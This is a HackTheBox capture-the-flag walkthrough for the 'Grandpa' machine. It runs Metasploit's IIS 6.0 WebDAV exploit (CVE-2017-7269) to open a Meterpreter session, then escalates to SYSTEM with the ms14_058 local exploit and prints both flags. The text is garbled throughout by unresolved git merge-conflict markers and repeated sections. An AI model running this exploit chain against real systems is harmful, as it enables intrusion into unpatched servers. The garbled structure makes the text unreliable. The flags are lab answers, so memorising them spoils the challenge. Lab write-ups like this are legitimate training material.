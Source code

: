 # HackTheBox Walkthrough - Grandpa

**Machine Name**: Grandpa  
**Target IP**: 10.129.95.233  
**Difficulty**: Easy  
**Objective**: Exploit IIS 6.0 and escalate privileges to get both user and root flags.

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Grandpa 10.129.95.233
```

![nmap](img/nmap.png)
=======
>>>>>>> 9f1f476 (Add files via upload)
=======
![nmap](img/nmap.png)
>>>>>>> bbca5bf (Update README.md)
=======
![nmap](img/nmap.png)
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

**Results:**
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Date: Sun, 27 Jul 2025 12:26:38 GMT
|_  WebDAV type: Unknown
|_http-server-header: Microsoft-IIS/6.0
```

---

## 💥 Exploitation

### 🔓 Exploit IIS 6.0 WebDav (CVE-2017-7269)


Exploit: [EDB 41992](https://www.exploit-db.com/exploits/41992)  
![exploitdb](img/exploitdb.png)
=======
Exploit: [EDB 41992](https://www.exploit-db.com/exploits/41992)
>>>>>>> 9f1f476 (Add files via upload)
=======
Exploit: [EDB 41992](https://www.exploit-db.com/exploits/41992)  
![exploitdb](img/exploitdb.png)
>>>>>>> bbca5bf (Update README.md)
=======
Exploit: [EDB 41992](https://www.exploit-db.com/exploits/41992)  
![exploitdb](img/exploitdb.png)
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

```bash
msfconsole
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.129.95.233
set LHOST 10.10.14.156
run
```

=======
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf
![meterpreter](img/meterpreter.png)

> Meterpreter session opened.

![lowprivi](img/lowprivi.png)

=======

> Meterpreter session opened.

---
>>>>>>> 9f1f476 (Add files via upload)
=======
![meterpreter](img/meterpreter.png)

> Meterpreter session opened.

![lowprivi](img/lowprivi.png)
>>>>>>> bbca5bf (Update README.md)
=======
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

### 📍 Migrate Session (Stabilize)

```bash
ps
migrate 1896  # wmiprvse.exe
getuid
```

![migrate](img/migrate.png)
=======
>>>>>>> 9f1f476 (Add files via upload)
=======
![migrate](img/migrate.png)
>>>>>>> bbca5bf (Update README.md)
=======
![migrate](img/migrate.png)
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

**Result**:
```
Server username: NT AUTHORITY\NETWORK SERVICE
```

---

## 🔧 Privilege Escalation

### 🔍 Use `local_exploit_suggester`

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

![recon](img/recon.png)
=======
>>>>>>> 9f1f476 (Add files via upload)
=======
![recon](img/recon.png)
>>>>>>> bbca5bf (Update README.md)
=======
![recon](img/recon.png)
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

**Vulnerable Suggestions:**
- ms14_058_track_popup_menu
- ms14_070_tcpip_ioctl
- ms15_051_client_copy_image
- ms16_016_webdav
- ppr_flatten_rec
- etc...

### 🚀 Use `ms14_058_track_popup_menu`

```bash
use exploit/windows/local/ms14_058_track_popup_menu
set SESSION 1
set LHOST 10.10.14.156
run
```

![root](img/root.png)
=======
>>>>>>> 9f1f476 (Add files via upload)
=======
![root](img/root.png)
>>>>>>> bbca5bf (Update README.md)
=======
![root](img/root.png)
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

```bash
getuid
```

**Result**:
```
Server username: NT AUTHORITY\SYSTEM
```

---

## 🧑‍💻 User Flag

```bash
cat C:\Users\[USERNAME]\Desktop\user.txt
```

![userflag](img/userflag.png)
=======

**Flag**:
```
bdff5ec67c3cff017f2bedc146a5d869
```
>>>>>>> 9f1f476 (Add files via upload)
=======
![userflag](img/userflag.png)
>>>>>>> bbca5bf (Update README.md)
=======
![userflag](img/userflag.png)
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

---

## 👑 Root Flag

```bash
cat C:\Users\Administrator\Desktop\root.txt
```

![rootflag](img/rootflag.png)
=======

**Flag**:
```
9359e905a2c35f861f6a57cecf28bb7b
```
>>>>>>> 9f1f476 (Add files via upload)
=======
![rootflag](img/rootflag.png)
>>>>>>> bbca5bf (Update README.md)
=======
![rootflag](img/rootflag.png)
>>>>>>> 96296fda4278cf5a222c6622ada25d5f3c20dabf

---
